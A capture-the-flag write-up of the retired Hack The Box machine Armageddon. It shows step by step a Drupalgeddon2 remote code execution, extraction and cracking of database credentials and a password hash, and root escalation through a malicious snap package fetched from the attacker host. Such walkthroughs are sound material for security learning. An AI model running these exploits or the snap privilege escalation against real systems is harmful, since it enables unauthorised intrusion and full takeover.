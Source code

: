 ```yaml
---
Alias: {{title}}
Date: {{date}}
Platform: 
Category:
Difficulty:
Tags:
Status:
IP: 
---
```


# Armageddon

This is the write-up for the box Armageddon that got retired at the 24th July 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```
10.10.10.233   armageddon.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/armageddon.nmap 10.10.10.233
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

## Checking HTTP (Port 80)

The website shows a login form which requires a username and password.
As the initial scan found, a _robots.txt_ file can be accessed, which shows many directories and files.

The file _CHANGELOG.txt_ shows that the web service is running **Drupal 7.56** from June 2017.

Searching for public vulnerabilities:
```
searchsploit drupal 7
```

There are some Remote Code Execution vulnerabilities that are called **Drupalgeddon2** and I will use the Ruby script:
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```

Running the script:
```
ruby 44449.rb http://10.10.10.233/
```

After running the script, it starts a shell session as the user _apache_.

## Privilege Escalation

The file _sites/default/settings.php_ in the web directory contains credentials for a **MySQL** database:
```
(...)
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
(...)
```

The shell from the exploit is not a real TTY shell, so instead of login into the database, commands need to be specified on the command line:
```
mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'describe users'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name, pass from users'
```
```
brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

The table _users_ has a hash for the user _brucetherealadmin_ which also exists on the box.

Trying to crack the hash with **John The Ripper**:
```
john drupal.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The password gets cracked and it is:
> booboo

The password works on the user with SSH:
```
ssh brucetherealadmin@10.10.10.233
```

### Privilege Escalation to root

When checking the permissions of _brucetherealadmin_ with `sudo -l`, the user has privileges to install packages with `snap` as root:
```
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

The binary _snap_ has an [entry in GTFObins](https://gtfobins.github.io/gtfobins/snap/) which makes it possible to escalate privileges to root.

Installing [fpm](https://github.com/jordansissel/fpm):
```
gem install --no-document fpm
```

Creating a malicious binary:
```
COMMAND="chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

Copying `bash` in the home folder of _brucetherealadmin_:
```
cp /usr/bin/bash /home/brucetherealadmin/
```

Uploading package _xxxx_1.0_all.snap_ onto the box:
```
curl 10.10.14.8/xxxx_1.0_all.snap -o privesc.snap
```

Installing package with sudo permissions:
```
sudo snap install privesc.snap --dangerous --devmode
```

After the package is installed, it will execute the specified command and `bash` can be executed:
```
./bash -p
```

The _euid_ is root and thus the privileges got escalated!